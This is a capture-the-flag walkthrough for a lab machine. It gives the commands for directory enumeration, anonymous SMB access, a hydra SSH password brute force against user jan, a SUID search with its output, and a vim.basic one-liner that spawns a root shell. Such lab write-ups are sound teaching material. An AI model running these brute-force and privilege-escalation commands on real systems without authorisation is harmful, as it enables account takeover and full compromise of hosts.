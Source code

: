 ***

Author: dxWiz

Date: 19 Mar 2022

***

# Task 1 Web App Testing and Privilege Escalation

Use the following command to enumerate the url for hidden directory

	gobuster dir -u $IP -w /usr/share/wordlist/dirbuster/diretory-list-2.3-medium.txt

and we found /development/ and two files dev.txt and j.txt, checkout both of the files.

From out initial nmap scan, we know that smb is present in the target, to list the available share, use the following command

	smbclient -L //$IP

then the next steps is to try connecting to the shared folder with the name of Anonymous

	smbclient //$IP/Anonymous -N

After that do and ***ls*** and ***get*** to download the file staff.txt. In the file there is a staff named Jan.

We will then use hydra to brute force jan password with the following command
	
	hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$IP

It is time to ssh into the target with the password obtained and we can start looking for any misconfigured SUID file with the following command

	find / -type f -perm -u=s 2>/dev/null

	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/snapd/snap-confine
	/usr/lib/openssh/ssh-keysign
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/bin/vim.basic
	/usr/bin/pkexec
	/usr/bin/newgrp
	/usr/bin/chfn
	/usr/bin/sudo
	/usr/bin/chsh
	/usr/bin/newgidmap
	/usr/bin/at
	/usr/bin/gpasswd
	/usr/bin/newuidmap
	/usr/bin/passwd
	/bin/su
	/bin/ntfs-3g
	/bin/ping6
	/bin/umount
	/bin/fusermount
	/bin/mount
	/bin/ping


vim.basic looks interesting and by referencing to GTFObins we can do a PE with the following command

	/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")' 


With the root access we can then go to kay home directory and read the pass.bak file to get the file answer for the last question.

